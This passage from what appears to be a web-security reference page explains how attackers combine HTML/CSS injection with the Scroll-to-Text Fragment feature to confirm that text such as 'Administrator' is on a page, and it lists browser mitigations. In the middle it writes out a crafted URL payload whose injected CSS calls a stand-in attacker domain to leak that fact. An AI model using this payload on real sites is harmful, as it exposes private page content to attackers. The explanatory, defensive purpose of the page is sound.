 ```
   - The fallback content ('A') will be rendered using the custom font `poc` if the external resource cannot be loaded.

### Styling Scroll-to-Text Fragment

The **`:target`** pseudo-class is employed to select an element targeted by a **URL fragment**, as specified in the [[https://drafts.csswg.org/selectors-4/#the-target-pseudo|CSS Selectors Level 4 specification]]. It's crucial to understand that `::target-text` doesn't match any elements unless the text is explicitly targeted by the fragment.

A security concern arises when attackers exploit the **Scroll-to-text** fragment feature, allowing them to confirm the presence of specific text on a webpage by loading a resource from their server through HTML injection. The method involves injecting a CSS rule like this:

```css
:target::before {
  content: url(target.png);
}
```
```
In such scenarios, if the text "Administrator" is present on the page, the resource `target.png` gets requested from the server, indicating the text's presence. An instance of this attack can be executed through a specially crafted URL that embeds the injected CSS alongside a Scroll-to-text fragment:

```
http://127.0.0.1:8081/poc1.php?note=%3Cstyle%3E:target::before%20{%20content%20:%20url(http://attackers-domain/?confirmed_existence_of_Administrator_username)%20}%3C/style%3E#:~:text=Administrator
```
```
Here, the attack manipulates HTML injection to transmit the CSS code, aiming at the specific text "Administrator" through the Scroll-to-text fragment (`#:~:text=Administrator`). If the text is found, the indicated resource is loaded, inadvertently signaling its presence to the attacker.

For mitigation, the following points should be noted:

1. **Constrained STTF Matching**: Scroll-to-text Fragment (STTF) is designed to match only words or sentences, thereby limiting its capability to leak arbitrary secrets or tokens.
2. **Restriction to Top-level Browsing Contexts**: STTF operates solely in top-level browsing contexts and does not function within iframes, making any exploitation attempt more noticeable to the user.
3. **Necessity of User Activation**: STTF requires a user-activation gesture to operate, meaning exploitations are feasible only through user-initiated navigations. This requirement considerably mitigates the risk of attacks being automated without user interaction. Nevertheless, the blog post's author points out specific conditions and bypasses (e.g., social engineering, interaction with prevalent browser extensions) that might ease the attack's automation.

Awareness of these mechanisms and potential vulnerabilities is key for maintaining web security and safeguarding against such exploitative tactics.

For more information check the original report: [[https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/|https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/]]

